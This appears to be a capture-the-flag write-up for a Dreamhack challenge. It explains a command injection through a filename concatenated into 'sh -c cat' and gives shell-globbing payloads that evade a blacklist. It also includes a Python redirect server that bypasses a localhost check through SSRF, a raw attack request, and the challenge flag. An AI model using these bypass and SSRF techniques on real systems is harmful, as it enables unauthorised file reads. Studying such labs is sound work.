




[link](https://dreamhack.io/wargame/challenges/2344)

## Recon
1. In the `/deploy/api/read.go` has a coding vulnerability where the target concatenates  a user-controlled `filename` into `cmd := exec.Command("sh", "-c", "cat " + filename)`.



the existing constraints include a blacklist of forbidden of `filename` paramter and the request originate from `localhost`.





==> parten of SSRF , use `Shell Globbing` to bypass blacklist of forbidden. 

Payload:
```
/f[l]ag[[:punct:]]txt
/fla[g][,-1]txt
/fla``g[[:punct:]]txt

```


2. in the `/deploy/main.go` , it make a request to specific site but not allow `localhost`. We can bypass the constraint by using `redirect` because `resp, err := http.Get(url)` follows redirect 




## exploit

1. build a redirect server
```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import quote

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        filename = "/f[l]ag[[:punct:]]txt"

        target = (
            "http://127.0.0.1:8080/api/read?filename="
            + quote(filename, safe="")
        )

        self.send_response(302)
        self.send_header("Location", target)
        self.end_headers()

        print(f"Redirect to: {target}", flush=True)

HTTPServer(("0.0.0.0", 9000), Handler).serve_forever()
```

2. Make a request

```
POST /request HTTP/1.1

Host: host3.dreamhack.games:14291

Content-Length: 34

Content-Type: application/x-www-form-urlencoded


host=165.22.173.124&port=80&path=/
```


flag : `DH{H0w_byPa55_fi1t3r_?:+jk0u67ESnUmS/7pob9Ylw==}`
